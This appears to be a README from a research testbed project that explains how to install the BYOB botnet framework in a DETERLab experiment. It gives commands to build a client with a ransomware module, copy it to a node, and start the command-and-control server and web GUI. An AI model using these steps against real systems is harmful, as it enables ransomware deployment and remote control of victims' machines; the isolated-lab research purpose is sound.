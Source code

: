 # DISCERN

This page describes how we install and use [BYOB](https://github.com/malwaredllc/byob/)

## Prerequisites

Clone this repository: https://github.com/briankoco/discern

Run this script in your XDC:

```shell
cd byob/
sudo bash xdc/init-xdc-defaults.sh
```

## Installation

Run this ansible playbook in your XDC to download and install BYOB. There are a few assumptions currently:
1. You are using the `testbotenv` topology shown here: https://launch.mod.deterlab.net/project/discern/experiment/testbotenv
2. You only want to install BYOB on the `botmaster` node

To run the playbook, do:
```shell
cd ansible/
ansible-playbook -i inventories/testbotenv.ini setup-testbotenv.yml
```

## Example: Server/Client setup


### Building a client

We will use the `botmaster` node to generate a client. The client will have a ransomware
module built into it.

SSH to the botmaster node from your XDC
```shell
ssh botmaster
```

```shell
cd /opt/byob/byob.git/byob
python3 client.py --freeze botmaster.infra 1337 ransom
```

After this completes, you should see a line like the following:
```shell
(24,551,600 bytes saved to file: /opt/byob/byob.git/byob/dist/zGs)
```

We now scp this module to our home directory on the client (for example, `b1`):
```shell
scp dist/zGs b1.infra:
```

Lastly, startup the server
```shell
python3 server.py
```

### Staring the client

SSH from your XDC to the client (for example, `b1`):
```shell
ssh b1
```

Start the module that you scp'd above:
```
./zGs
```

At this point, the server should display a message like:
```
[+] Connection: 172.30.0.11
    Session: 0
    Started: Wed Nov  8 20:34:50 2023
```

## Running the GUI

There is also a GUI option that can be used on the server instead of the server.py command line
tool.  SSH to the `botmaster` node and execute this command and leave the server running:
```shell
cd /opt/byob/byob.git/web-gui
python3 run.py
```

### Accessing the BYOB GUI

Use SSH port forwarding to reach the GUI. From your local workstation:
```shell
mrg xdc ssh <your XDC> -L 8000:botmaster:5000
```

Then, from a web browser on your local machine, navigate to http://localhost:8000/
